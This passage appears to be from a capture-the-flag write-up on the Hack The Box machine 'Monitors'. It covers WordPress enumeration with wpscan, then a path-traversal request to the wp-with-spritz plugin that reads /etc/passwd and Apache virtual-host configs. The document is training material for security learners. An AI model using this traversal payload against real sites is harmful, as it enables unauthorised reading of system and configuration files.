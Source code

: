 ### HTTP - 80/tcp

Looks like we've got a WordPress site running on port 80/tcp.

![monitors1](/images/monitors1.png)

```sh
┌──(pl4stic㉿kali)-[~/htb/monitors]
└─$ wpscan --url http://monitors.htb -e ap
[...snip...]
[+] WordPress version 5.5.1 identified (Insecure, released on 2020-09-01).
[...snip...]
[+] Upload directory has listing enabled: http://monitors.htb/wp-content/uploads/
[...snip...]
[+] WordPress theme in use: iconic-one
[...snip...]
[i] Plugin(s) Identified:

[+] wp-with-spritz
```

## Initial Access

### Remote File Inclusion

A quick search of the installed plugin `wp-with-spritz` reveals a remote file inclusion vulnerability at the following endpoint:
`plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd`

![monitors2](/images/monitors2.png)

Now we know the one non-root user: `marcus`. Let's keep enumerating to see if we can view any website config files.  I was unable to locate `/var/www/html/wp-config.php` or any other WordPress default files for that matter... perhaps we don't know where they're stored.

Luckily, we can check `/etc/apache2/sites-enabled/000-default.conf`

```Text
# Default virtual host settings
# Add monitors.htb.conf
# Add cacti-admin.monitors.htb.conf
```

Two more strings to pull on: `monitors.htb.conf` and `cacti-admin.monitors.htb.conf`

```Text
ServerAdmin admin@monitors.htb
ServerName monitors.htb
ServerAlias monitors.htb
DocumentRoot /var/www/wordpress
```

```Text
ServerAdmin admin@monitors.htb
ServerName cacti-admin.monitors.htb
DocumentRoot /usr/share/cacti
ServerAlias cacti-admin.monitors.htb
```
